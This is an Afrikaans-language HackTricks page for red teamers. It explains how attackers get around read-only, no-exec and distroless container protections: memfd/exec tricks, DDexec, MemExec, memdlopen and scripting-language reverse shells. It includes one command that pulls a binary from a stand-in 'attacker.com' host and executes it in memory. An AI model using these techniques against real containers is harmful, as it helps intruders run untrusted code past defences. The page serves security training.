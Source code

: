 # Bypass FS protections: read-only / no-exec / Distroless

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PR's in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

As jy belangstel in 'n **hacking loopbaan** en die onhackbare hack - **ons is op soek na mense!** (_vloeiende Pools geskryf en gesproke vereis_).

{% embed url="https://www.stmcyber.com/careers" %}

## Video's

In die volgende video's kan jy die tegnieke wat op hierdie bladsy genoem word, meer in diepte verduidelik vind:

* [**DEF CON 31 - Verkenning van Linux Geheue Manipulasie vir Stealth en Ontvlugting**](https://www.youtube.com/watch?v=poHirez8jk4)
* [**Stealth indringings met DDexec-ng & in-geheue dlopen() - HackTricks Track 2023**](https://www.youtube.com/watch?v=VM\_gjjiARaU)

## read-only / no-exec scenario

Dit is al hoe meer algemeen om linux masjiene te vind wat gemonteer is met **read-only (ro) lêerstelsel beskerming**, veral in houers. Dit is omdat dit so maklik is om 'n houer met 'n ro lêerstelsel te laat loop deur **`readOnlyRootFilesystem: true`** in die `securitycontext` in te stel:

<pre class="language-yaml"><code class="lang-yaml">apiVersion: v1
kind: Pod
metadata:
name: alpine-pod
spec:
containers:
- name: alpine
image: alpine
securityContext:
<strong>      readOnlyRootFilesystem: true
</strong>    command: ["sh", "-c", "while true; do sleep 1000; done"]
</code></pre>

Tog, selfs al is die lêerstelsel as ro gemonteer, sal **`/dev/shm`** steeds skryfbaar wees, so dit is vals dat ons nie iets op die skyf kan skryf nie. Hierdie gids sal egter **gemonteer wees met no-exec beskerming**, so as jy 'n binêre hier aflaai, sal jy **nie in staat wees om dit uit te voer nie**.

{% hint style="warning" %}
Van 'n rooi span perspektief maak dit **moeilik om binêre te aflaai en uit te voer** wat nie reeds in die stelsel is nie (soos agterdeure of enumerators soos `kubectl`).
{% endhint %}

## Eenvoudigste omseiling: Skripte

Let daarop dat ek binêre genoem het, jy kan **enige skrip uitvoer** solank die interpreter binne die masjien is, soos 'n **shell skrip** as `sh` teenwoordig is of 'n **python** **skrip** as `python` geïnstalleer is.

Tog is dit nie net genoeg om jou binêre agterdeur of ander binêre gereedskap wat jy mag nodig hê om te loop, uit te voer nie.

## Geheue Omseilings

As jy 'n binêre wil uitvoer maar die lêerstelsel dit nie toelaat nie, is die beste manier om dit te doen deur **dit uit geheue uit te voer**, aangesien die **beskermings daar nie van toepassing is nie**.

### FD + exec syscall omseiling

As jy 'n paar kragtige skrip enjin in die masjien het, soos **Python**, **Perl**, of **Ruby**, kan jy die binêre aflaai om uit geheue uit te voer, dit in 'n geheue lêer beskrywer (`create_memfd` syscall) stoor, wat nie deur daardie beskermings beskerm gaan word nie en dan 'n **`exec` syscall** aanroep wat die **fd as die lêer om uit te voer** aandui.

Vir hierdie kan jy maklik die projek [**fileless-elf-exec**](https://github.com/nnsee/fileless-elf-exec) gebruik. Jy kan dit 'n binêre gee en dit sal 'n skrip in die aangeduide taal genereer met die **binêre gecomprimeer en b64 geënkodeer** met die instruksies om dit te **decodeer en te dekomprimeer** in 'n **fd** wat geskep is deur `create_memfd` syscall aan te roep en 'n oproep na die **exec** syscall om dit te laat loop.

{% hint style="warning" %}
Dit werk nie in ander skrip tale soos PHP of Node nie omdat hulle nie enige d**efault manier het om rou syscalls** van 'n skrip aan te roep nie, so dit is nie moontlik om `create_memfd` aan te roep om die **geheue fd** te skep om die binêre te stoor nie.

Boonop sal die skep van 'n **regte fd** met 'n lêer in `/dev/shm` nie werk nie, aangesien jy nie toegelaat sal word om dit uit te voer nie omdat die **no-exec beskerming** van toepassing sal wees.
{% endhint %}

### DDexec / EverythingExec

[**DDexec / EverythingExec**](https://github.com/arget13/DDexec) is 'n tegniek wat jou toelaat om die **geheue van jou eie proses** te verander deur sy **`/proc/self/mem`** te oorskryf.

Daarom, **beheer die assembly kode** wat deur die proses uitgevoer word, kan jy 'n **shellcode** skryf en die proses "mutate" om **enige arbitrêre kode** uit te voer.

{% hint style="success" %}
**DDexec / EverythingExec** sal jou toelaat om jou eie **shellcode** of **enige binêre** uit **geheue** te laai en **uit te voer**.
{% endhint %}
```bash
# Basic example
wget -O- https://attacker.com/binary.elf | base64 -w0 | bash ddexec.sh argv0 foo bar
```
For more information about this technique check the Github or:

{% content-ref url="ddexec.md" %}
[ddexec.md](ddexec.md)
{% endcontent-ref %}

### MemExec

[**Memexec**](https://github.com/arget13/memexec) is die natuurlike volgende stap van DDexec. Dit is 'n **DDexec shellcode demonised**, so elke keer wanneer jy 'n **ander binêre** wil **hardloop**, hoef jy nie DDexec weer te herlaai nie, jy kan net memexec shellcode via die DDexec-tegniek hardloop en dan **kommunikeer met hierdie demon om nuwe binêre te stuur om te laai en te hardloop**.

Jy kan 'n voorbeeld vind van hoe om **memexec te gebruik om binêre van 'n PHP reverse shell** uit te voer in [https://github.com/arget13/memexec/blob/main/a.php](https://github.com/arget13/memexec/blob/main/a.php).

### Memdlopen

Met 'n soortgelyke doel as DDexec, laat die [**memdlopen**](https://github.com/arget13/memdlopen) tegniek 'n **gemakliker manier om binêre** in geheue te laai om later uit te voer. Dit kan selfs toelaat om binêre met afhanklikhede te laai.

## Distroless Bypass

### Wat is distroless

Distroless houers bevat slegs die **bare minimum komponente wat nodig is om 'n spesifieke toepassing of diens te laat loop**, soos biblioteke en runtime afhanklikhede, maar sluit groter komponente soos 'n pakketbestuurder, skulp of stelseldienste uit.

Die doel van distroless houers is om die **aanvaloppervlak van houers te verminder deur onnodige komponente te verwyder** en die aantal kwesbaarhede wat uitgebuit kan word, te minimaliseer.

### Reverse Shell

In 'n distroless houer mag jy **nie eens `sh` of `bash`** vind om 'n gewone skulp te kry nie. Jy sal ook nie binêre soos `ls`, `whoami`, `id`... vind nie, alles wat jy gewoonlik in 'n stelsel hardloop.

{% hint style="warning" %}
Daarom, jy **sal nie** in staat wees om 'n **reverse shell** of **te enumerate** die stelsel soos jy gewoonlik doen nie.
{% endhint %}

As die gecompromitteerde houer egter byvoorbeeld 'n flask web loop, dan is python geïnstalleer, en daarom kan jy 'n **Python reverse shell** kry. As dit node loop, kan jy 'n Node rev shell kry, en dieselfde met byna enige **skriptaal**.

{% hint style="success" %}
Met die skriptaal kan jy **die stelsel enumerate** met behulp van die taal se vermoëns.
{% endhint %}

As daar **geen `read-only/no-exec`** beskermings is nie, kan jy jou reverse shell misbruik om **in die lêerstelsel jou binêre te skryf** en **uit te voer**.

{% hint style="success" %}
Echter, in hierdie tipe houers sal hierdie beskermings gewoonlik bestaan, maar jy kan die **vorige geheue-uitvoertegnieke gebruik om dit te omseil**.
{% endhint %}

Jy kan **voorbeelde** vind van hoe om **sommige RCE kwesbaarhede te benut** om skriptaal **reverse shells** te kry en binêre uit geheue uit te voer in [**https://github.com/carlospolop/DistrolessRCE**](https://github.com/carlospolop/DistrolessRCE).

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

As jy belangstel in 'n **hacking loopbaan** en die onhackable hack - **ons huur!** (_vloeiende Pools geskryf en gesproke vereis_).

{% embed url="https://www.stmcyber.com/careers" %}

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
